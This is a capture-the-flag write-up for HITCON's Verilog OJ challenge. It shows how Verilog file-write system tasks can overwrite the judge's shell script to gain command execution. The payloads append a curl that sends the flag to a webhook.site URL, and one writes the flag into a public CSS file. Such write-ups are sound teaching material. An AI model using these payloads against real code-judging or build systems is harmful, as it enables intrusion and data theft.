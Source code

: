 ```yaml
---
title: Verilog OJ
summary: Yes, we need Online Judge for Verilog for our Logic Design course.
tags: [HitconCTF, Web, Misc, Command Injection]
date: 2025-08-24
---
```


## Description

Yes, we need Online Judge for Verilog for our Logic Design course.

Author: t510599

[Given files](/hitconctf/verilog-oj/verilog-oj.tar.gz)

## Solution

The web application is an online platform with Verilog problems, similar to LeetCode, but focused exclusively on a single Verilog problem.

![problem](/hitconctf/verilog-oj/problem.png)

[Verilog](https://en.wikipedia.org/wiki/Verilog) is a hardware description language used to design and verify digital circuits.

To test the application, I used an AI to generate a solution to the problem and submitted the resulting Verilog code.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;
endmodule
```

Upon submitting the code, I received a score of "AC" (All Correct), indicating that the application likely executed my input.

![submission](/hitconctf/verilog-oj/submission.png)

Since I confirmed that my submission was executed, I realized I could potentially exploit this by writing Verilog code to fetch and retrieve the flag from the server using a webhook.

I then examined the application's code to identify any security measures preventing this.
Surprisingly, I found that there was no sanitization applied to the submissions.

```ruby
module VerilogOJ
  # Judge Job
  class JudgeJob
    include Sidekiq::Job

    def perform(submission_id)
      submission = Submission.first(id: submission_id)
      return if submission.nil? || submission.result != 'Q'

      dir = prepare(submission)
      result, output = judge dir
      submission.update(result: result, output: output) unless result.nil?
      FileUtils.remove_dir(dir, force: true)
    end

    def prepare(submission)
      dir = Dir.mktmpdir("submission_#{submission.id}_")
      File.write("#{dir}/testbench.v", submission.problem.testbench)
      File.write("#{dir}/module.v", submission.code)
      dir
    end

    def judge(dir) # rubocop:disable Metrics/MethodLength
      stdout, stderr, status = Timeout.timeout(15) do
        # Simplify error handling by letting iverilog and vvp fail in a single script
        script_path = File.realpath("#{File.dirname(__FILE__)}/../../scripts/judge.sh")
        # iverilog is safe to execute
        Open3.capture3("#{script_path} #{dir}")
      end

      return ['RE', stderr] unless status.exitstatus.zero?

      if !stdout.nil? && stdout.strip.lines.last == 'Passed'
        ['AC', stdout]
      else
        ['WA', stdout]
      end
    rescue Timeout::Error
      ['TLE', 'Execution timed out']
    rescue StandardError => e
      ['RE', e.message]
    end
  end
end
```

The application simply runs a bash script, which executes the submission and verifies that no errors occurred, and that the tests passed.

```sh
cd "$1"
iverilog module.v testbench.v -o judge
vvp judge
```

I then attempted to craft Verilog code that could exploit this behavior to fetch the flag.
At first, I assumed Verilog could be used like a typical programming language, but it turns out that Verilog is a hardware description language, not a general-purpose programming language.
This means you can't use typical features like executing shell commands or sending HTTP requests directly.

To understand Verilog better, I consulted a [Verilog tutorial](https://www.chipverify.com/tutorials/verilog), where I learned that while Verilog could still perform basic file operations, such as reading and writing files.

Next, I realized that I couldn’t directly read the flag because only the root user has permission to access it.
The flag is stored in a file that is only accessible by the root user.
To read it, I needed to execute the command `/readflag give me the flag`.
However, this required executing a shell command, which is not something Verilog can do directly.

But I found an interesting file to overwrite: the bash script that runs my submission.
If I could modify this script, I could append the `/readflag give me the flag` command to it, and that would allow me to access the flag.

To verify this, I wrote a Verilog submission that appends a `curl` command to send a webhook request, and after submitting it, I saw my webhook receive a request, confirming that the exploit was successful.

All I had to do now, was to add a subshell to retrieve the flag.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;
    
    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;
    
    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "curl https://webhook.site/07e78043-4cf9-4ad4-aaaa-fec865b06cde?`/readflag give me the flag`");
        $fclose(fd);
    end
endmodule
```

While it worked locally, no requests arrived when I submitted the payload remotely.
After tweaking the payload several times with no success, I contacted the organizers and was informed that the remote instance didn’t have internet access, which meant I couldn’t use a webhook to retrieve the flag.

Luckily, I quickly found a workaround.
Since I could modify a bash script, I also had the ability to modify other files, particularly static files like CSS files.
These files could be used to write the flag, which I could later retrieve through my browser.

I then opened a terminal within my Docker instance to locate a CSS file and updated my payload accordingly.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;

    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "/readflag give me the flag >> /app/app/presentation/assets/css/style.css");
        $fclose(fd);
    end
endmodule
```

This time, I was able to retrieve the flag both locally and from the remote instance.

```sh
$ curl http://localhost:9292/assets/css/style.css | tail                                 
  font-family: 'Cascadia Code', monospace;
}

code:not(pre > code) {
  background-color: #f8f9fa;
  padding: 0.2em 0.4em;
  border-radius: 4px;
}
hitcon{1_u$ed_t0_beli3v3_th4t_Judging_VeriloG_is_VERY_S@f3_Fr0m_RCE_QAQ}
```
